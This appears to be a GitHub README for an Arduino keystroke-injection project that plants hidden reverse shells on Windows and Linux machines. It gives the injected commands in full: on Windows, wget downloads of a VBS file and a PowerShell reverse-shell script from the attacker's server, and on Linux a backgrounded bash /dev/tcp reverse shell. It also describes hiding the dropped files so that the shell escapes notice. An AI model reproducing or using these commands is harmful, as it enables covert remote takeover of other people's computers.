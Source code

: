 # Reverse Shell Arduino
## Hidden reverse shells with arduino

# How to start   
• To use in Windows, make local http server with python:
  ```
  python -m http.server 80
  ```    

edit file reverse_shell_win.ino and specify address to file:
  ```
  //set address to ur reverse shell file and vbs file
  delay(1000);
  Keyboard.println("wget \"http://<address_to_your_file>/hidden.vbs\" -outfile \"C:\\hidden.vbs\"");
  delay(1000);
  Keyboard.println("wget \"http://<address_to_your_file>/rev.ps1\" -outfile \"C:\\rev.ps1\"");
  ``` 

edit rev.ps1 file and specify ip and port of your machine from which you will use reverse shell:
  ``` 
  $LHOST = "IP"; $LPORT = <PORT>;
  ``` 

• To use in Linux just edit file reverse_shell_win.ino and specify ip and port of your machine:  
  ```
  Keyboard.println("nohup /bin/bash -c \"/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\" >/dev/null 2>&1 &; disown; exit");
  ``` 
# Examples
After connecting the arduino to a windows machine, the necessary files are downloaded and the hidden attribute is set to them so that they are not visible: 
![hidden_files](https://github.com/EvtDanya/Reverse-Shell-Arduino/hidden_files.png)      
And our reverse shell is launched:       
![reverse_shell_in_windows](https://github.com/EvtDanya/Reverse-Shell-Arduino/reverse_win.png)      

After connecting the arduino to a linux machine, a command is run in the background and it can now be detected only through the list of system processes:  
![reverse_shell_in_linux](https://github.com/EvtDanya/Reverse-Shell-Arduino/reverse_lin.png)  

## Feedback  
If you have any questions or suggestions, please dm me https://t.me/d3f3nd3r